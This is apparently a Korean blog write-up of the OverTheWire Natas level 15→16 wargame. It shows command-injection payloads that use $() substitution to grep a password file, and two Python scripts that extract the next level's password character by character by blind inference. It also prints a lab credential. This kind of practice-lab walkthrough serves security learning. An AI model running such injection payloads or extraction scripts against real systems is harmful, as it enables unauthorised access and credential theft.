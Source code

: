 ```yaml
---
title: Natas Level 15 → Level 16
date: 2024-04-07 21:36:00 +09:00
categories: [wargame, natas]
tags: [natas, wargame]
image:
  path: assets/img/0407/natas16a.png
---
```

<br>
## 로그인
---
> Username: natas16
> <br> URL: <http://natas16.natas.labs.overthewire.org>


<br>특수문자를 더 필터링했다고 한다. 소스코드를 보면,
<br>![Desktop View](assets/img/0407/natas16b.png){: width="700" height="400" }<br>


소스코드가 익숙하다.. 찾아보니 <a href="https://00yj.tistory.com/165">natas9->10</a>과 비슷한 문제처럼 보인다.<br>
그런데 이번에는 Natas 9 to 10 에서 보다 많은 특수문자를 필터링하고 있으며,<br>
key로 받는 입력값도 명령어에 바로 주입되지 않도록 " "로 막아놨다. 


<br>
<br>
<br>
## 풀이
---
<br>리눅스에서는 <b>'명령어'</b> 또는 <b>$(명령어)</b>를 이용하면 "" 안에 있는 문자열도 명령어로 인식한다.<br>
<b>‘’</b>는 필터링에 걸리므로, <b>$()</b>를 이용하면 된다.


<b>happy</b>를 입력했을 때, 아래와 같이 뜬다.
<br>![Desktop View](assets/img/0407/natas16c.png){: width="700" height="400" }<br>

<br><b>happy$(grep a /etc/natas_webpass/natas17)</b>를 입력했을 때도 똑같이 출력된다.
<br>![Desktop View](assets/img/0407/natas16d.png){: width="700" height="400" }<br>
natas17 패스워드 문자열에 a가 없어서 happy를 입력했을 때와 같은 화면이 뜨는 것이다.


<br>반면<br><b>happy$(grep b /etc/natas_webpass/natas17)</b> 를 입력했을 때는 아무것도 뜨지 않는다.
<br>![Desktop View](assets/img/0407/natas16e.png){: width="700" height="400" }<br>
natas17 패스워드에 b가 있다는 뜻이다.<br>
이 결과를 이용하여 자동화 프로그램을 쓰면 된다.


<br>
<br>
<br>
## 자동화 프로그램
---
<br>먼저 패스워드를 이루는 문자열을 뽑는다.<br>
```python
import requests
from requests.auth import HTTPBasicAuth
 
auth = HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')
 
pw_char = ''
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'
for char in allchars:
    r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=happy$(grep ' +
                     char + ' /etc/natas_webpass/natas17)', auth=auth)
 
    if 'happy' not in r.text:
        pw_char = pw_char + char
        print(pw_char)
```

<br>결과
<br>![Desktop View](assets/img/0407/natas16f.png){: w="250" h="500" }<br>

이제 출력된 문자열 bdhkmnsuvBCEHIKLRSUX1790을 하나씩 넣어서 패스워드를 조합하는 프로그램을 쓰자.<br>
앞의 코드랑 비슷하게 쓰면 된다.<br>
이 때 grep의 정규 표현식인 '^' 를 이용한다.<br>

> 정규 표현식이란 문자열의 집합을 지정하는 방법으로,<br>
특정 규칙을 만족하는 문자열을 찾기 위해 사용된다. 따라서<br>
<b>happy$(grep b /etc/natas_webpass/natas17)</b>는 'b'를 어디에나 포함하는 모든 줄을 찾고,<br>
<b>happy$(grep ^b /etc/natas_webpass/natas17)</b>는 오직 'b'로 시작하는 줄만을 찾는다.<br>
{: .prompt-info }


```python
import requests
from requests.auth import HTTPBasicAuth
 
auth = HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')
 
pw = ''
pw_char = 'bdhkmnsuvBCEHIKLRSUX1790'
 
for i in range(32):
    for char in pw_char:
        r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=happy$(grep ^' +
                         pw + char + ' /etc/natas_webpass/natas17)', auth=auth)
 
        if 'happy' not in r.text:
            pw = pw + char
            print(pw)
            break
```


<br> 결과
<br>![Desktop View](assets/img/0407/natas16g.png){: w="250" h="500" }<br>


<a href="https://no-more-assignment.tistory.com/209">참고 블로그</a>